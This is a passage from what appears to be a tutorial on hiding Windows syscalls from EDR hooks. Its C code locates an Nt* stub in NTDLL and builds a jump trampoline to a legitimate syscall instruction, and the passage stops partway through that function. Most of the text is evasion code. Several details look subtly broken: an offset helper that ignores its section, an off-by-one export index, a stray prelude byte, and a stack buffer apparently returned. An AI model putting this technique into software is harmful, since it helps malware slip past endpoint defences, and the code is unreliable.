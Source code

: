 This will get a handle to NTDLL and grab the base address. Using that base address we can parse out all of the headers and sections. Now we can modify the function that resolves the syscall stubs to grab the first one.

```c
PVOID RVAtoRawOffset(DWORD_PTR RVA, PIMAGE_SECTION_HEADER section)
{
	return (PVOID)RVA;
}

LPVOID GetFirstStub(PIMAGE_EXPORT_DIRECTORY exportDirectory, LPVOID fileData, PIMAGE_SECTION_HEADER textSection, PIMAGE_SECTION_HEADER rdataSection)
{
	PDWORD addressOfNames = (PDWORD)RVAtoRawOffset((DWORD_PTR)fileData + *(&exportDirectory->AddressOfNames), rdataSection);
	PDWORD addressOfFunctions = (PDWORD)RVAtoRawOffset((DWORD_PTR)fileData + *(&exportDirectory->AddressOfFunctions), rdataSection);
	for (int i = 0; i < exportDirectory->NumberOfNames; i++)
	{

		DWORD_PTR functionNameVA = (DWORD_PTR)RVAtoRawOffset((DWORD_PTR)fileData + addressOfNames[i], rdataSection);
		DWORD_PTR functionVA = (DWORD_PTR)RVAtoRawOffset((DWORD_PTR)fileData + addressOfFunctions[i + 1], textSection);
		LPCSTR functionNameResolved = (LPCSTR)functionNameVA;
		if (functionNameResolved[0] == 'N' && functionNameResolved[1] == 't')
		{
			return (LPVOID)functionVA;
		}
	}
	return (LPVOID)NULL;
}
```

The original code would parse NTDLL for a given function, copy it into a buffer, and then return true. However in this case we don't need the whole stub, we just need the address of it. The above code will just grab the first Nt function, but it could easily be adjusted to grab a given function that we know won't be hooked or just a random NTDLL function.

```c
LPVOID ntdllSyscallPointer = GetFirstStub(exportDirectory, ntdllBase, textSection, rdataSection);
```

Now that we have a pointer to a legit syscall we can write a function to patch our syscall with a jump to the legit syscall.

```c
char* createObfuscatedSyscall(LPVOID SyscallFunction, LPVOID ntdllSyscallPointer) {
	//Get the address of the syscall instruction
	LPVOID syscallAddress = (char*)ntdllSyscallPointer + 18;

	//construct a trampoline
	unsigned char jumpPrelude[] = { 0x00, 0x49, 0xBB }; //mov r11
	unsigned char jumpAddress[] = { 0xDE, 0xAD, 0xBE, 0xEF, 0xDE, 0xAD, 0xBE, 0xEF }; //placeholder where the address goes
	*(void**)(jumpAddress) = syscallAddress; //replace the address
	unsigned char jumpEpilogue[] = { 0x41, 0xFF, 0xE3 , 0xC3 }; //jmp r11

	//Copy it all into a final buffer
	char finalSyscall[30];
	memcpy(finalSyscall, SyscallFunction, 7);
	memcpy(finalSyscall + 7, jumpPrelude, 3);
	memcpy(finalSyscall + 7 + 3, jumpAddress, sizeof(jumpAddress));
	memcpy(finalSyscall + 7 + 3 + 8, jumpEpilogue, 4);

	//Make sure that we can execute
	DWORD oldProtect = NULL;
```